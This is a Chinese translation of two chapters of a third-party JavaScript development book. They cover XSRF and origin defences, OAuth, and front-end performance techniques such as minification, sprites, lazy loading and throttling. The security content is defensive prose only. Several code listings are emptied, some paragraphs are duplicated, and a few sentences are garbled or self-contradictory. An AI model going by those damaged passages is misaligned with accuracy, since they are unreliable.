伪造头部是困难的。事实证明，只有 `XMLHttpRequest` 能够设置自定义头。由于同源策略确保了表单、脚本标签和图像对象无法设置自定义头，因此在同源策略的情况下，只有通过 `XMLHttpRequest` 才能发起请求。换句话说，自定义头应该是安全的。

至少理论上是这样。但正如我们之前暗示的，浏览器由许多组件组成，并非所有组件都遵守的同源策略。例如，流行的 Adobe Flash 插件中存在一个已知漏洞，允许恶意网页通过 Flash 发起 XSRF 请求并设置任意头部（`http://mng.bz/Ka5x`）。

这意味着仅靠自定义头部不足以确保 `Stork-Publisher-Origin` 没有被发布者篡改。你需要验证向 API 的请求源于你的隧道文件，而不是第三方。解决这个问题的办法，正如你在第 7 章中学到的，是 XSRF 令牌。通过在隧道文件中嵌入 XSRF 令牌并在随后的 API 请求中再次提交该令牌，你可以验证 `Stork-Publisher-Origin` 的值没有被篡改。我们将此练习留供你实现。

#### 你的 Web 服务 API 仍然受到恶意客户端的威胁

重要的是，这些防御措施只能防止恶意网站以普通浏览器用户的身份发起 HTTP 请求。对于有心的攻击者来说，仍然可能向你的 API 发起未经授权的请求。

例如，没有任何能阻止攻击者获取发布者的密钥并使用非浏览器客户端（任何编程语言编写的脚本）向你的 API 发起 HTTP 请求。为了绕过你的 XSRF 保护，他们可以先请求隧道文件并提取 XSRF 令牌，然后将其提交到恶意 API 请求中。或者更有创意，恶意用户可以构建一个忽略同源策略检查的自定义 Chromium 或 Firefox 版本。这时没有任何能阻止该用户打开控制台并使用伪造凭据向你的 Web 服务 API 发起 `XMLHttpRequest`。

⁵尽管这听起来很不可思，但我们的技术评审员 Alex Sexton 确实做过这样做，坦诚地说，这令我们感到恐惧。

# 第 8 章：开发第三方 JavaScript SDK

但这并不意味着源检查（Origin checking）是一个坏主意。这些反制措施的作用是防止网页发布者（加载了你的 SDK）伪装成另一个发布者，因为他们无法伪造普通访问者访问网站时使用的此标头。换句话说，虽然你无法阻止恶意客户端，但你可以阻止恶意的网站。之后，你的 API 将不得不依赖服务器端的反应式措施（如 IP 阻塞或速率限制）来处理个别滥用者。

### 8.3.4 用户授权与 OAuth

如果你还记得，我们之前定义的 Camera Stork Web 服务 API 仅由返回公共数据的方法组成：产品和用户评论。由于这些数据在公共的 camerastork.com 网站上以 HTML 形式可用，因此以一种易于程序化处理的形式（JSON）公开这些这些数据并没有多大危险。

但当你想要暴露一个可以获取或修改私有或其他敏感数据的 API 方法时，会发生什么呢？假设你想为 API 增加一个端点，允许发布者代表用户提交评论（见表 8.2）。

列出的最后一个参数 `user_id` 需要一些解释。显然，让任意发布者代表用户提交评论是没有意义的。如果真的那样，我们在 Mikon 的朋友们（我们发誓，这完全是一家真实的相机公司）会创建数百万条关于他们相机产品的、反常正面的评论。不用说，这将导致 camerastork.com 的信誉迅速终结，并无疑会让业务陷入崩盘。

这意味着，如果发布者使用 SDK 导致访问者的浏览器向此端点发送请求，API 不应该假设访问者与 camerastork.com 的现有会话（cookies）已授权发布者代表他们创建评论。否则，Mikon 只需要在他们的网页上托管一些 JavaScript 代码，加载你的 SDK，并在每当有人用浏览器请求该页面时，都会创建一个新的 Camera Stork 评论。

你需要一种方法让发布者向浏览器用户请求授权以便代表他们执行操作。今天，这个问题通过 OAuth 解决，OAuth 是一种允许第三方与 Web 服务通信的开放标准。从简单意义来说，OAuth 描述了一种为发布者提供端点的机制，这些端点发布私有访问令牌，令牌封装了用户授权其代表用户执行操作的权限。这些访问令牌随后作为参数随请求发送到 Web 服务 API，而 API 反过来会将该请求视为由该用户发出的。图 8.3 展示了一个面向用户的 OAuth 权限页面，令牌从该页面生成。

遗憾的是，OAuth 是一个复杂的协议，主要在服务器端实现，这超出了本书的范畴。但如果你正在开发一个打算暴露或修改私有用户数据的 Web 服务 API，你有责任为了你自己（以及你的用户）去研究并实现 OAuth。你可以在 OAuth 官方首页找到更多信息：`http://oauth.net`。

### 8.4 总结

表 8.2：Camera Stork API 的新增内容

| URL 端点 | 返回 | 参数 |
| :--- | :--- | :--- |
| `reviews/submit` | 为产品提交新的用户评论 | `score`—分配给产品的评分<br>`message`—评论文本<br>`user_id`—提交评论的用户 |

分发第三方 JavaScript SDK 是任何第三方 JavaScript 应用的自然演进。提供易于使用的初始化和执行你的应用程序实例的函数，可以使发布者更灵活地控制如何将你的软件集成到他们的网页属性中。

在本章中，我们涵盖了将第三方应用程序转换为 JavaScript SDK 的基础。你学习了如何暴露和实现初始化方法，以及引导发布者异步加载你的 SDK 的几种可能技术。你还实现了基础公共函数，用于实例化 Camera Stork 产品组件以及将发布者回调函数绑定到 SDK 内部事件上。最后，你学习了 SDK 是为 Web 服务 API 提供客户端访问的极佳工具，并实现了一个执行此功能的公共函数（`Stork.api`）。

为自己点个赞吧，因为到目前，我们已经涵盖了实现第三方 JavaScript 应用的大部分功能性基础。在下一章中，我们将优化这些应用程序的性能。毕竟，如果一个第三方应用很慢，它有什么用呢？

（图 8.3：Facebook 的 OAuth 授权页面，用户可以在此处授权 API 应用程序访问其数据或代表他们执行操作）

# 性能

到目前，你已经学习了构建第三方 JavaScript 应用所需要的所有知识。你知道如何分发你的代码、在发布者的页面上进行安全渲染、建立通信通道，甚至通过 JavaScript SDK 提供一系列客户端功能。你还熟悉当应用程序暴露给公众时可能遇到的常见安全威胁。既然我们已经涵盖了基础知识，现在我们将讨论如何让你的第三方应用程序变快。

性能是一个极其重要的课题。拥有高流量应用程序的公司通过微调和优化性能节省了数百万美元。例如，Google 发现返回搜索结果页延迟 0.5 秒会损害用户满意度，导致流量下降 20%。对于一家 95% 利润来自广告的公司来说，流量下降 20% 意味着了数百万美元的收入损失。

本章涵盖：

- 最小化初始负载
- 减少网络请求
- 减少对发布者页面的影响
- 控制昂贵的 JavaScript 调用
- 提高感知性能

## 优化负载

Amazon 也做了类似的实验，并发现即使是微小的延迟——100 毫秒的增长也会导致收入大幅下降（见 `http://mng.bz/73U0`）。

这些例子表明用户希望网站加载更快、响应更灵敏，并且他们准备用钱包投票。虽然高流量巨头（如 Google、Yahoo! 或 Facebook）确实受益于微调以减少带宽，但这对于第三方应用程序来说是一个至关重要的论点。

**204**

# 第 9 章：性能

本节的目标是向你展示如何优化应用程序的初始负载（payload）。我们将通过减少其整体文件大小、减少必要的 HTTP 请求数量，以及推迟非必要资源直到其绝对需要再加载来实现。为了实现这一目标，我们将研究若干技术：合并 JavaScript 和 CSS 文件、图片精灵图（sprites）和内联（inlining），以及文件缓存。然后，我们将进入更复杂的推迟非必要资源的话。首先：通过合并和压缩你应用程序的 JavaScript 和 CSS 文件来优化你的初始负载。

## 高性能网站与更快的网站

在仅仅几年前，要找到关于前端优化技巧的良良材料还很困难。但得益于像 Steve Souders 这样的前端性能冠军，今天我们有很多专门介绍该主题的书和文章。遗憾的是，我们无法希望在一个章节中涵盖这些材料的所有内容。但如果你想阅读更多，我们强烈建议阅读 Steve Souders 等人编写的两本书：*High Performance Web Sites》（O’Reilly, 2007）以及其续作 *Even Faster Web Sites》（O’Reilly, 2009）。

### 9.1.1 合并并压缩源代码

如果你的 JavaScript 应用程序变得相当大，可以安全地假设你的源代码散布在几个文件中（如果不是这样，请深呼吸，去散散步，并思考一下你的开发实践）。虽然从开发的角度来看这是一个好主意，但通过要求浏览器下载多个文件，你可能会减慢应用程序的性能。这是因为对于应用程序请求的每一个资源，浏览器都必须打开一个网络连接、发送请求和所有 HTTP 请求头、接收文件和所有响应头，最后关闭连接。对于多个文件来说，这种开销会迅速累积。

为了避免这种开销，通常的做法是定义一个构建过程，将相同类型的文件合并为单个较大的文件。然后，当你的应用程序部署到生产环境时，它将加载这些合并后的文件而不是开发文件，从而减少 HTTP 请求的数量。顺便，你的构建过程还应该使用 JavaScript 和 CSS 压缩工具对新合并的文件进行压缩。这可以显著减小合并文件的大小。

#### 代码压缩

代码压缩是重写你的源代码使其尽可能小的，同时保留其功能的过程。这是通过移除非功能的空白符和注释，以及重写变量和函数名来实现的。你的 JavaScript 和 CSS 代码都可以被压缩。

代码压缩的影响可能是惊人的。例如，jQuery 库的最新版本重量大约为 250 KB 的代码。压缩后，这个数字下降到大约 92 KB——缩小了 63% 以上。

**205**

## 优化负载

今天，我们幸运地拥有一些很好的压缩工具——例如 Google Closure Compiler、Yahoo YUI Compressor、UglifyJS 等——它们允许在一个简短的构建文件中表达这种构建过程。这是一个使用所有构建工具之祖 Make 的简单构建文件，它适用于所有现代操作系统：

```make
CLOSUREFILE=bin/closure-compiler.js

BUILDDIR=build

combine:

	@cat myfile1.js myfile2.js > build.js

minify: combine

	@java -jar $(CLOSUREFILE) --js_output_file=$(BUILDDIR)/build.js
```

现在，每当你的 JavaScript 应用程序决定加载哪些文件时，它应该检查自己运行在开发环境还是生产环境中。如果是开发环境，你的应用程序应该加载原始源代码文件。如果是生产环境，你的应用程序应该加载由构建脚本生成的合并并压缩的文件：

```javascript
if (Stork.debug) {
  loadScript('http://camerastork.dev/widget/myfile1.js');
  loadScript('http://camerastork.dev/widget/myfile2.js');
} else {
  loadScript('http://cdn.camerastork.com/12345/build/build.js');
}
```

### 在 iframe 中合并资源

不要忘记，你的应用程序加载的任何 iframe 文档都代表额外的 HTTP 请求，而且浏览器还必须加载 iframe 内部引用的任何资源。所以当你合并和压缩文件时，不要忘记那些在 iframe 内部使用的组件。

如果你觉得足够大胆，可以将整个 HTML 页面减少到单个 HTTP 请求。这是通过将 JavaScript 和 CSS 直接内联到页面的 HTML 源代码中实现的。这是你可以将其整合到项目构建过程中的步骤：

```html
<!DOCTYPE html>
<html>

  <script src="channel-requirements.js"></script>

  <script>
    
  </script>

</html>
```

### 9.1.2 减少图片请求

图片——像脚本、样式表和其他网页组件——需要浏览器为每个文件发送单独的请求。幸运的是，你可以使用一些技术来减少应用程序的图片请求数量。

**206**

# 第 9 章：性能

这些技术并不像连接源文件那样简单，但它们也不是火箭科学。

#### 图片精灵图

合并多张图片的常用方法是使用图片精灵图（sprites）。通过精灵图，你将多张图片合并到一个较大的图像中，然后使用 `background-image` 和 `background-position` 显示你需要的部分。图 9.1 显示了我们为 Disqus 使用的一个精灵图，包含了许多图标。为了显示精灵图的特定部分，我们指定一个 CSS 类，设置 `background-image` 指向精灵图文件，设置 `background-position`。例如，为了显示灰色点赞按钮，图像需要相对于精灵图顶角和左角偏移 15 像素：

```css
.thumbs-up {
  background-image: url(http://cdn.disqus.com/img/sprite.png);
  background-position: -15px -15px;
}
```

最初，这些图标都是图片文件，每个都需要一个单独的 HTTP 请求。通过将它们打包成精灵图，只需要一次 HTTP 请求。即使精灵图文件在 CSS 中被多次引用，浏览器也只下载一次。对于拥有大量图像资源的应用程序，这可以显著减少 HTTP 请求的数量。精灵图是不经考虑的选择——尽可能使用它们。

#### 内容分发网络

理想情况下，你应该从内容分发网络（CDN）提供静态文件。CDN 提供高性能的资产交付，通常来自全球多个数据中心，是向用户交付文件的快速方式。Akamai、Amazon CloudFront 和 CloudFlare 只是著名的 CDN 提供商。

#### 内联图像

减少 HTTP 请求数量的另一种巧妙方法是使用内联图像。通过这种技术，你实际上是将整个图像文件作为二进制字符串嵌入应用程序的源代码中，从而放弃单独网络请求的需求。为了查看它是如何工作的，让我们来看一个涉及 Disqus 组件的真实示例。该组件从加载脚本开始：一段首先加载、配置自身，然后加载剩余应用程序文件的 JavaScript 代码。在某个时候，我们决定让加载脚本在运行时显示我们公司的 Logo 会很好，但我们不想仅仅为了显示微小的 Disqus Logo（小于 1 KB）就引入额外的网络请求。


图 9.1：Disqus 精灵图

评论工具栏

**207**

## 优化有效负载

解决问题的方案是以数据 URI 和 Base64 编码图像的形式出现的。数据 URI 方案允许你将原本外部的数据内联，而无需发起额外的网络请求。这很棒，唯一的缺点是你你不能简单地将图像复制并粘贴到源代码中——你必须先将二进制图像文件转换为 ASCII 兼容的格式。这时 Base64 就派上用场了——这是一种允许你将二进制数据表示为 ASCII 字符串的编码方案。当结合使用时，数据 URI 和 Base64 编码图像提供了一个内联图像的绝佳工具，而无需额外的网络请求。对所有 Web 开发人员方便的是，有很多 Web 端工具可以轻松地将图像转换为相应的 Base64 格式。

列表 9.1 显示了一段 JavaScript 代码片段，用于显示（小的）Disqus Logo。为了实现这一点，它创建了一个 `img` DOM 元素，然后使用数据 URI 方案将包含图像数据的 Base64 编码字符串分配给元素的 `src` 属性。

```javascript
var logo = "iVBORw0KGgoAAAANSUhEUgAAAEcAA...";

var container = document.getElementById('dsq-logo');

container.innerHTML = '';
```


请注意，遗憾的是，这种技术在 `Internet Explorer 7` 及更版本中不起作用。对于这些浏览器，你必须退回到传统的加载图像方式——通过网络请求它们。

## 9.1.3 缓存文件

到目前为止，我们一直假设浏览器加载资源就像是第一次看到它们。但正如你可能知道的，事实并非如此。浏览器使用缓存来减少 `HTTP` 请求的数量并减少 `HTTP` 响应的大小，使你的应用程序加载更快。你可以通过在 `HTTP` 响应中指定 `Expires` 和 `Cache-Control` 头部来帮助浏览器，这些头部告诉浏览器缓存副本在多长时间内是安全的。例如，这是一个未来的 `Expires` 头部，告诉浏览器该文件在 `2018` 年 `11` 月 `10` 日之前不会更新：¹

```
Expires: Sun, 10 Nov 2018 18:00:00 GMT
```

但要猜出应用程序静态组件的最佳过期时间非常困难。设置得太短，你就无法充分利用缓存；设置得太长，你就会遇到用户获取了旧版本资源的问题，而你实际上是想让他们拥有最新版本。

解决此问题的方法之一是设置一个遥远的 `Expires` 头部（告诉浏览器此副本可以使用，比方说是一年），同时在你的资源 `URL` 中插入一个唯一版本字符串。当你想要强制用户获取新副本时，你将修改版本字符串。为了看到实际效果，让我们从第 `2` 章借用一段代码，该代码用于为 `Camera Stork` 小部件加载所需的 `JavaScript` 文件。我们将修改此片段以改用带版本的 `URL`：

```javascript
loadScript('http://cdn.camerastork.com/' + version + '/build/dom.js',

function() {

    // use DOM library

});
```

你会注意到版本字符串紧跟在请求文件 `URL` 的域名部分之后。为了强制浏览器忽略其缓存并下载文件的最新版本，你所做的就是更改这个版本字符串。这是因为新版本位于不同的 `URL`，这意味着浏览器会将该文件视为一个完全全新的、未知的资源。

为了让这种方法生效，你的脚本需要从某处获取当前版本。这个版本字符串不能通过类似的会被缓存的资源获取；否则用户将面临相同的问题——他们永远无法获得更新的版本字符串，也永远不会下载最新的文件集。最佳解决方案是将版本字符串包含在你的初始加载器代码中，并确保它不被浏览器缓存（或不被缓存太久）。这是你的初始加载器脚本尽可能小的另一个原因：由于它不能被激进地缓存，它被下载的频率将远高于你应用程序的其他资源。

¹ 此值可以是未来的 `30` 分钟、一天、一周或一年。我们选择 `2018` 是为了让这本书在 `2017` 年读起来仍然是新的！

**列表 9.1：将图像嵌入 `JavaScript` 源代码**

| 描述 | 详情 |
| :--- | :--- |
| `Disqus Logo PNG` 转换为 | `Base64` 编码字符串 |
| （为了清晰起见已省略） | 使用数据 `URI` 方案作为 `img` 标签追加 |

## 9.1.4 推迟 HTTP 请求

正如你所知，第三方应用程序通常必须下载许多不同的文件才能运行（`JavaScript`、`CSS`、图像等）。但有时你会观察到这些资源中的某些对于你应用程序的运行并不是*立即*必需的。然而，通过提前下载这些额外资源，你增加了应用程序从开始加载到生效之间的关键间隔。你可以采用的一种减少这种间隔的技术是*推迟*非本质资源，直到它们变得绝对需要为止。这意味着你的应用程序在被用户查看之前避免加载此类资源。推迟 `HTTP` 请求有多种方法，我们将查看两种对小部件特别有益的方法：推迟整个主体，以及推迟图像资源。

**209**

## 推迟部件主体

这种技术——被某些人称为*懒加载*——是通过推迟大部分应用程序代码来减少初始负载的一种极端方法。实现方法很简单：初始加载器在页面上初始化，除了监听窗口外什么都不做。当加载器检测到部件即将进入用户的视口时，它开始下载所需的组件并正常渲染部件。如果你的发布者的访问从未查看过你的部件内容，你的应用程序将减少 `HTTP` 请求，从而减轻服务器负载和用户的性能影响。以下显示了一个带有懒加载实现的加载器示例。

```javascript
function getWindowDimensions() {

    var documentElement = document.documentElement;

    return ('pageYOffset' in window) ? {

        // W3C*

        scrollTop: window.pageYOffset,

        scrollLeft: window.pageXOffset,

        height: window.innerHeight,

        width: window.innerWidth

    } : {

        // IE 8 及以下*

        scrollTop: documentElement.scrollTop,

        scrollLeft: documentElement.scrollLeft,

        height: documentElement.clientHeight,

        width: documentElement.clientWidth

    };

}

function getPosition(el) {

    var left = 0;

    var top = 0;

    while (el && el.offsetParent) {

        left += el.offsetLeft;

        top += el.offsetTop;

        el = el.offsetParent;

    }

    return { top: top, left: left };

}

function insideViewport(el) {

    var win = getWindowDimensions();

    var pos = getPosition(el);

    return pos.top >= win.scrollTop && pos.top <= win.scrollTop + win.height;

}

function whenVisible(callback) {

    var el = document.getElementById('stork-container');

    // ...

}
```

**列表 9.2：`Camera Stork` 小部件的懒加载实现**

| 描述 | 详情 |
| :--- | :--- |
| 浏览器兼容的辅助函数，用于确定窗口尺寸 | |
| 返回元素的当前位置 | |
| 确定元素是否在视口内 | |
| 当部件容器进入视口时触发回调函数 | |

```javascript
if (!el) { return; }

function listener() {

  if (insideViewport(el)) {

    callback();

  }

}

Stork.debounce(window, 'scroll', listener, 250);

listener();

}

whenVisible(function () {

  initializeWidget();

});
```

让我们仔细看看这段代码。当 `whenVisible` 函数被调用时，它会获取到目标容器元素的引用，并且每当用户滚动窗口时，它都会检查该容器现在是否位于视口内。窗口尺寸、窗口滚动位置以及容器位置都是通过一系列简单的辅助函数确定的。除了 `initializeWidget`（我们假设你已经知道如何实现它）之外，还有一个未定义的函数：`debounce`。这是一个特殊的函数，可以确保你的事件处理程序不会意外导致浏览器无响应。我们将在本章的稍后部分详细介绍它。

像这样延迟小部件主体并不适用于所有人。在 `Disqus`，我们只在评论应用程序遇到异常巨大的流量峰时，才会将这种技术作为“终极方案”。这是因为延迟小部件可能会导致用户体验下降。启用后，访问者必须在小部件开始初始化之前向下滚动页面，用户可能会注意到小部件在短段时间内是不可用的。但让小部件加载缓慢总比由于我们的服务器无法跟上流量负载而完全不加载要好。因此，默认情况下，我们保持关闭懒加载，但通过功能开关（一种我们将在第 `10` 章“测试与调试”中介绍的、用于动态启用或禁用功能的工具），我们可以为部分用户（有时是所有用户）开启它，以便更好地应对流量激增。

## 延迟图片

说到 `Disqus` 评论小部件，让我们来看另一个可以从延迟 `HTTP` 请求中获益的情况。让我们想象一下，`Disqus` 小部件正在加载一个拥有超过 `50` 个参与者的大型评论线程。在线程上评论的每一个人都有一个他们引以为傲的独特头像图像，而 `Disqus` 小部件的任务是在他们的评论旁边显示此头像。如果我们直接将这些图像插入页面中，浏览器将立即排队下载 `50` 张图像，这无疑会减慢速度。而且我们甚至不知道访问者是否会查看所有——或*任何*这些图像。

就像我们处理小部件主体的方式一样，你可以延迟加载非本质图片，直到它们实际上被浏览器用户看到——或即将被看到。在这个例子中，**当小部件可见时，继续初始化过程**——用户头像是延迟加载的极佳候选对象，因为它们对小部件的运行至关重要。为了做到这一点，我们为每条评论使用一个占位符头像，直到用户准备阅读某条评论，之后我们用真实的头像图像替换占位符。这种方法不是一次性请求 `50` 张图像，而是让下载随着用户向下滚动页面而分散开。

这里是一个由 `Disqus` 生成的头像 `img` 标签示例：

```html

```

你会发现这个图像元素显示的是通用的默认图像头像，而真实的头像 `URL` 被“隐藏”在 `data-dsq-src` 属性中（它特意加上了 `dsq` 前缀以避免与其他脚本冲突）。应用程序只需要将普通的 `src` 属性替换为 `data-dsq-src` 属性的内容，真实的图像就会被浏览器下载并最终显示。

下一个问题是：什么时候加载真实的头像？显而易见的答案是当用户查看评论时——当包含评论和相应头像的元素位于浏览器视口内。列表 `9.3` 是一个示例代码，它遍历页面上所有的头像（通过具有相似前缀的 `dsq-deferred-avatar` 类识别），确定它们是否在视口内，如果是，则将它们的 `src` 属性替换为 `data-src` 中的值。

```javascript
function displayDeferredAvatars() {

  var avatars = document.querySelectorAll('img.dsq-deferred-avatar');

  for (var i = 0, len = avatars.length; i < len; i++) {

    (function (el) {

      var src = el.getAttribute('data-dsq-src');

      if (!src) { return; }

      if (inViewport(el)) {

        el.setAttribute('src', src);

        el.className = '';

        el.removeAttribute('data-dsq-src');

      }

    })(avatars[i]);

  }

}
```

这是一个简单的、粗暴的实现，主要依赖于我们在列表 `9.2` 中编写的辅助代码。与该列表中的示例一样，`displayDeferredAvatars` 函数应该在小部件初始化时调用（以显示当前在视口内的任何图像），并在用户滚动浏览器时（通过绑定到窗口的滚动事件）再次调用。

**列表 9.3：一个用于查找并显示延迟头像的函数**

- 获取所有头像的集合
- 跳过没有 `data-src` 属性的头像
- 移除 `data-src` 和类，以便我们不再再次处理此头像

这个函数是一个很好的开始，但它也有几个缺点。首先最重要的是，每当调用此函数时（每次滚动事件），它都会执行一次这些操作。正如列表 `9.2` 示例所示，`displayDeferredAvatars` 函数应该在小部件初始化时调用（显示当前在视口内的任何图像），并在用户滚动浏览器时通过绑定到窗口的滚动事件再次调用。

## 9.2.1 浏览器内部：UI 线程、重绘和重流

每个浏览器都有一个所谓的 *UI 线程*，它负责 `JavaScript` 的执行*以及*UI 更新（例如在页面上绘制元素）。由于 UI 更新可能会影响 JavaScript 的执行流，反之亦然，因此一次只能发生一件事——如果线程正忙，所有其他 UI 更新和 `JavaScript` 执行的任务都将进入队列。只有当 UI 线程完成其当前任务后，它才会从队列中提取一个新任务——要么是另一次 UI 更新，要么是 `JavaScript` 代码的执行。

由于 UI 线程的这种非并行特性，在页面上执行的 `JavaScript` 可能会阻止 UI 更新，导致页面无响应。如果你的代码运行缓慢，浏览器将简单地缓存所有的 UI 更新，无论它们来自哪里——你的第三方应用程序还是宿主页面。但我们所说的这些 UI 更新到底是什么？UI 更新可以分为两个大类：*重流*（reflow）和*重绘*（repaint，有时也被称为重绘）。

### 更多关于高性能 JavaScript

如果你想深入了解 UI 线程，推荐阅读 *Performance JavaScript*（`Zakas`, `2010`）。

### 重流 和 重绘

重流发生在 `DOM` 被修改时，改变了布局的几何形状。当这种情况发生时，浏览器必须重新计算元素的布局。例如：

- 添加或删除 元素
- 修改元素的几何属性（如宽度、高度、边距、位置等）
- 改变元素的大小
- 改变 `DOM` 结构

重绘发生在元素的视觉变化需要更新到屏幕时，而不需要重新计算布局。例如：

- 修改元素的颜色
- 修改元素的背景颜色
- 修改元素的可见性（如 `visibility` 属性）
- 修改元素的文本（如 `innerText`）

重绘发生在元素的视觉变化需要更新到屏幕时，而不需要重新计算布局。当这种情况发生时，浏览器必须重新绘制元素的像素。例如：

- 修改元素的颜色
- 修改元素的背景

频繁的 `JavaScript` 线程问题，是是可见的。

## 9.2.2 控制开销较大的调用：节流和防抖

解决这个问题的在于两种限制函数调用频率的技术。这些技术——*节流*（throttle）和*防抖*（debounce）——通过创建一个包装函数来限制调用。它们的操作略有不同，稍后我们将介绍。

节流的工作原理是每 *N* 毫秒限制最多调用一次（见图 9.2）。示例实现见列表 9.5。当你想要限制执行频率时（无论调用多频繁），节流函数是有用的。

```javascript
function throttle(el, name, handler, delay) {

  var last = (new Date()).getTime();

  function wrapper(ev) {

    var now = (new Date()).getTime();

    if (now - last >= delay) {

      last = now;

      handler(ev);

    }

  }

  el.addEventListener(name, wrapper, false);

}
```


如果你仔细观察列表 9.5 中的代码，你会发现节流并没有保证你的代码每毫秒调用一次。如果使用节流函数的代码突然停止，除非发生在节流间隔期间，否则原始函数不会执行最后一次。

防抖确保在连续调用序列的开始或结束后，包装函数只执行一次。下面的实现监控调用的频率，并且在预定义时间间隔（延迟）内没有后续调用后，才会执行包装函数。例如，假设一个函数使用 1 秒（1000 毫秒）的延迟进行了防抖。如果在短时间内每 100 ms 调用一次防抖函数，然后出现 1 秒的暂停，那么包装函数只会触发一次。

## 列表 9.5: 函数节流实现

- 保存上一次调用器的时间
- 如果距离上次调用通过了足够（如 `delay` 所示）的时间，则执行 `handler`
- 将包装器附加到事件

图 9.2: 每 250 毫秒节流函数。无论调用多频繁，由于它绑定到滚动事件（这每秒可能触发多次），这种函数可能会导致 UI 线程在强制处理 DOM 树。

## 优化 JavaScript

```javascript
function debounce(el, name, handler, delay) {

  var exec;

  el.addEventListener(name, function (ev) {

    if (exec) {

      clearTimeout(exec);

    }

    exec = setTimeout(function () {

      handler(ev);

    }, delay);

  }, false);

}
```

节流（`throttle`）和防抖（`debounce`）都是解决 9.1.3 节中延迟头像代码性能问题的可能方案。你可以使用任何一个函数来限制从窗口滚动事件中调用 `displayDeferredAvatars` 的次数，减少 DOM 重流和重绘的次数，并帮助发布者的页面更具响应性。但这些函数的行为都略有不同。哪一个更适合这项任务？

如果你选择节流（`throttling`），意味着当用户向下滚动页面时，`displayDeferredAvatars` 函数会在节流间隔内反复触发。这意味着你最终加载的图片可能比预期的多，甚至加载了已经离开用户视口的图片（见图 9.3）。

防抖（`debounce`）只会在用户停止滚动（或大幅度减慢滚动速度）后调用 `displayDeferredAvatars` 函数。这比节流产生的 HTTP 请求更少（因为图片会被跳过），但可能会降低用户体验；在视口滚动过程中，用户不会看到任何图片出现。如果你感兴趣的话，Disqus 小部件使用的是节流，因为我们不介意加载额外的图片，但你对其中任何一种方法都有论据。

图 9.3：对延迟头像函数进行节流。取决于用户向下滚动页面的速度，你最终可能会处理已经离开屏幕的头像。

### 9.2.3 使用 setTimeout 延迟计算

你刚刚学习了防抖和节流是极佳的技术，它们通过减少绑定到多次触发事件的事件上的代码执行次数，来避免浏览器死锁。但如果触发的代码执行开销特别大，它仍然会占用浏览器的 UI 线程，阻止浏览器更新和其他 JavaScript 操作。

让我们来看一个例子。如果你还记得第 8 章的内容，你为 Camera Stork SDK 实现了一个函数 `Stork.productWidget`，该函数允许发布者在他们的网页上插入小部件实例。该函数的后续版本允许发布者使用 CSS 选择器指定目标位置。这段代码使用该函数在任何发现类的地方插入产品部件：

```javascript
Stork.productWidget({ id: 337, dom: '.widget' });
```

现在，请暂时不要怀疑，想象一下发布者的页面上有 100 个带有 `widget` 类的 DOM 元素。这段代码将产生在所有 100 个位置插入小部件的效果，涉及许多 DOM 操作，很可能会阻塞浏览器的 UI 线程——这不仅可能在浏览器中显示加载旋转图标，甚至可能触发令人讨厌的“脚本已无响应”警报（这种情况发生在脚本执行时间过长时）。解决方案是使用一个名为 `setTimeout` 的函数。该函数接受两个参数：一个回调函数和一个表示以毫秒计数的整数。当该时间过去后，`setTimeout` 会执行提供的回调函数：

```javascript
setTimeout(function() {

  // ...

}, 1000);
```

通常不为人知的是，你可以向 `setTimeout` 传递一个时间值 `0`。尽管你可能认为它会立即执行回调函数，但事实并非如此。浏览器执行的是将回调函数放置在 UI 线程处理的队列末尾。它有效地让你推迟代码，直到浏览器完成其当前任务队列并可以运行你的代码。以这种方式使用 `setTimeout` 有时被称为*脚本让出*（`script yielding`）。这是非常强大的工具，有助于解决你最初的问题——长时间运行的 JavaScript 操作。你可以做的是将代码拆分成更小的、易于处理的操作，并使用时间参数为 `0` 的 `setTimeout` 将每个操作放入队列。然后，每当这些操作中的一个完成，它都会释放 UI 线程来运行任何排队的任务，然后再返回你的代码。

### 并非真正的零

事实证明，当你调用延迟为 `0` 的 `setTimeout` 时，该值实际上会被替换为浏览器定义的最小值。HTML5 规范将此值定义为 4ms；之前是 10ms。但请注意，你的代码并不保证恰好在该时间内执行——如果浏览器忙于其他任务，它会延迟超时。参见 http://ms.dev/。

为了看到其运行效果，这里是 Camera Stork SDK 内部 `renderWidgets` 函数的示例实现。该函数接收一个要插入部件的目标 DOM 元素数组，以及一个包含产品属性的对象：

```javascript
function renderWidgets(targets, productData) {

  function processNext() {

    var target = targets.shift();

    renderWidget(target, productData);

    if (targets.length) {

      setTimeout(processNext, 0);

    }

  }

  processNext();

}
```

在这个示例中，私有函数 `processNext` 通过从 `targets` 数组头部移动元素来获取下一个处理目标。如果有任何剩余目标，将使用 `setTimeout` 再次执行 `processNext`。这会持续到没有更多待处理的目标。

现在，针对插入 100 次部件似乎是一个极端场景——但你的代码中可能有其他相同效果的长运行脚本。通过将此类代码拆分成更小的块并使用 `setTimeout` 队列执行，你可以释放 UI 线程来处理其他浏览器操作——例如用户滚动页面时重新渲染视口、渲染 CSS 动画或运行发布者自己的 JavaScript 代码。换句话说，发布者的页面仍然完全可用。如果你的应用程序有任何此类长时间计算，必须使用这种技术，否则发布者会很快离开你的平台。

## JavaScript 微优化

*微优化*（`micro optimizations`）是对代码的细微调整，可以帮助你稍微提高程序速度，或者在通过网络传输代码时节省字节。例如，考虑这个简单的循环，它遍历一个整数数组并打印每个值：

```javascript
var arr = [0, 1, 2, 3, 4, 5, 6, 7, 8, 9];

for (var i = 0; i < arr.length; i++) {

  console.log(arr[i]);

}
```

这是一段简单的代码，但尽管如此，很多人都想尝试优化。

**221**

***感知性能***

从服务器端，它隐藏加载指示器，要么显示错误，要么将新创建的评论插入到 DOM 的某个位置。这一流程在图 9.4 所示。

除非你的后端由于某种原因运行缓慢，否则你无法优化这一流程，因此你的用户可能会经常看到加载指示器，并且必须等待组件完成且评论出现在页面上。如果你在向服务器发送数据之前必须初始化一个跨域通道（或任何其他资源），这种感觉会更加明显。

但问问自己一个问题：用户从服务器获取错误的频率有多高？考虑到你可以在客户端复制你的大部分验证逻辑——以便及早发现用户错误——答案是*极少发生*。所以，与其显示加载指示器并等待服务器的响应，为什么不将用户的评论插入 DOM 中，就像它已经成功保存了一样？而且在服务器返回错误的这种极少数发生的情况下，你可以撤销对 DOM 的修改，并向用户显示一条歉意的错误信息。这一流程如图 9.5 所示。

用户点击提交
显示结果
发送到服务器
服务器
验证响应
如果出错则撤销结果
图 9.5
显示用户操作结果的乐观方法。在服务器响应之前就渲染成功消息。

用户点击提交
显示加载指示器
发送到服务器
服务器
验证响应
移除指示器
显示结果
错误
图 9.4
显示用户操作结果的保守方法。在服务器响应之前不渲染任何内容。

www.it-ebooks.info

**222**

第 9 章

***性能***

